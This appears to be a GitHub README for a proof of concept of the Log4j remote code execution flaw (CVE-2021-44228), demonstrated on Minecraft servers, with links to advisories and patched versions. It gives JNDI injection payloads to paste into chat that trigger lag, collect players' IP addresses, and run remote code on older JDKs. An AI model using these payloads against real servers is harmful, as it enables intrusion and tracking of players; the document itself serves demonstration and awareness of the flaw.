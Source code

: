 # Proof of Concept for Log4j (CVE-2021-44228)

## Disclaimer

This project is only for educational purposes.

---

## Introduction

This is a proof of concept of the log4j rce adapted from HyCraftHD.

Here are some links for the CVE-2021-44228:
- https://www.lunasec.io/docs/blog/log4j-zero-day
- https://github.com/advisories/GHSA-jfh8-c2jp-5v3q
- https://github.com/apache/logging-log4j2/pull/608
- https://www.youtube.com/watch?v=JPGola6BamU

This bug affects nearly all log4j2 and maybe log4j1 versions. The recommended version to use is **[2.15.0](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.15.0)** which fixes the exploit.

## Demonstration with minecraft (which uses log4j2)

- Details for the impact on minecraft are listed here: https://twitter.com/slicedlime/status/1469150993527017483
- Article from minecraft is here: https://www.minecraft.net/en-us/article/important-message--security-vulnerability-java-edition
- Fixed minecraft forge versions: https://twitter.com/gigaherz/status/1469331288368861195
- Detailed article from minecraft forge: https://gist.github.com/TheCurle/f15a6b63ceee3be58bff5e7a97c3a4e6
- Fixed minecraft fabric versions: https://twitter.com/slicedlime/status/1469192689904193537
- Fixed minecraft paper versions: https://twitter.com/aurora_smiles_/status/1469205803232026625
- Fixed minecraft spigot versions: https://www.spigotmc.org/threads/spigot-security-releases-%E2%80%94-1-8-8%E2%80%931-18.537204/
- Fixed minecraft sponge versions: https://discord.com/channels/142425412096491520/303772747907989504/918744598065586196

### Lag or sending serialized data 

- Paste ``${jndi:ldap://127.0.0.1/e}`` in the chat. If there is an open socket on port ``389`` logj4 tries to connect and blocks further communiction until a timeout occurs.
- When using this proof of concept exploit, the log in the console will log ``THIS IS SEND TO THE LOG!!! LOG4J EXPLOIT!`` which is a serialized string object from the ldap server.

![image](https://user-images.githubusercontent.com/7681220/145529175-b6f88cf0-67d0-450b-a834-87942202d594.png)

- Additionally the malicious ldap server receives every ip address where the message is logged. This means that ip adresses of players on a server can be collected which this exploit.

### RCE

- Paste ``${jndi:ldap://127.0.0.1/exe}`` in the chat. If ``-Dcom.sun.jndi.ldap.object.trustURLCodebase=true`` is set to true the remote code execution will happen.

![image](https://user-images.githubusercontent.com/7681220/145529797-a3952c3e-c81e-4e91-b383-490688736f9c.png)

- Fortunately modern jdks disable remote class loading by default. (https://www.oracle.com/java/technologies/javase/8u121-relnotes.html)
- Old versions may still allow this!!




 
